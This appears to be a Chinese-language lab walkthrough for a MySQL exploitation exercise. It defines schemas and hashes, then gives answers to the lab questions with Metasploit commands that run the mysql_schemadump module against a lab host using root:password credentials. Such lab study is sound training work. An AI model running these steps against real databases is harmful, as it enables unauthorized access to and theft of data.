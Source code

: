 ## 利用MySQL

目前我们在枚举阶段获取到的信息有
- MySQL 服务凭据（`root:password`）
- MySQL运行的版本
- 数据库数量及名称

### 关键术语

#### Schema 
- **Schema**直译为架构、模式。
- 在MySQL中`schema`与`database`同义，您可以在MySQL语法中使用关键字`SCHEMA`来代替`DATABASE`。例如：使用`CREATE SCHEMA`替代`CREATE DATABASE` 。

```ad-info
理解这种关系很重要，因为其他一些数据库产品也有区别。例如，在Oracle数据库产品中，`SCHEMA`仅表示数据库的一部分：由单个用户拥有的表和其他对象。
```

#### Hashes

- **Hashes** ：音译为哈希，直译为散列函数
- 是将可变长度输入转换为固定长度输出的加密算法的产物。

 在MySQL中，哈希可以以不同的方式使用，例如将数据索引到哈希表中。每个散列都有一个唯一的ID，用作指向原始数据的指针。 这样就创建了一个比原始数据小得多的索引，使得对值的搜索和访问更加高效。然而，我们将提取的数据是密码哈希，这仅仅是一种存储密码而不使用明文格式的方法。

````ad-details
collapse: true
title: 首先，让我们搜索并选择“mysql_schemadump”模块。模块的全名是什么？
**答案** `auxiliary/scanner/mysql/mysql_schemadump `
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump
...
   0  auxiliary/scanner/mysql/mysql_schemadump  
...
```

````

````ad-details
collapse: true
title: 好极了！现在，你已经操作过好几次了，所以我将让你从这一步开始。设置相关选项，运行攻击程序。最后一个被导出的表的名称是什么？
**答案** `x$waits_global_by_latency`

```bash
use auxiliary/scanner/mysql/mysql_schemadump

msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.58.132
RHOSTS => 10.10.58.132
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > run 

```
![](assets/12.network_mysql/file-20241201035551.png)

````
